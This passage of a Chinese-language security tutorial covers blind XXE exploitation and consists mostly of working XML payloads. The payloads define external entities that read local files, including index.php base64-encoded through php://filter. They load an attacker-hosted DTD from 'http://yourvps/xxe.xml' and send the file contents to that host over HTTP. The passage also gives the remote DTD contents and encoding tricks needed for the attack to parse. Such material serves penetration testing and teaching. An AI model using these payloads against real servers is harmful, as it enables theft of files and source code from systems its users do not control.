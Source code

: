 ### 读取本地文件
#### payload1
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///c://TEST.txt">
<!ENTITY % dtd SYSTEM "http://yourvps/xxe.xml">
%dtd; %all;
]>
<value>&send;</value>
```
在我的vps的xxe.xml的内容如下：
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://yourvps/%file;'>">
```
而测试文件TEST.txt内容为：
```
chybeta
```

整个的调用过程如下：解析时`%dtd`引入xxe.xml，之后`%all`引入`send`的定义，最后引用了实体send，把`%file`文件内容通过一个http请求发了出去。注意需要把payload经过url编码。查看vps上的access.log：

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/4.jpg?raw=true)

若要读取php等文件，同样需要先经过base64加密下。
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % dtd SYSTEM "http://yourvps/xxe.xml">
%dtd; %all;
]>
<value>&send;</value>
```

查看access.log:
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/5.jpg?raw=true)

#### payload2
发送的xml：
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data  [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % dtd SYSTEM "http://yourvps/xxe.xml">
%dtd; %send;
]>
```
而在vps上的xxe.xml内容为：
```xml
<!ENTITY % payload2 "<!ENTITY &#x25; send SYSTEM 'http://yourvps/%file;'>"> %payload2;
```
注意的是，`&#25;` 不能直接写成`%`，否则无法解析。
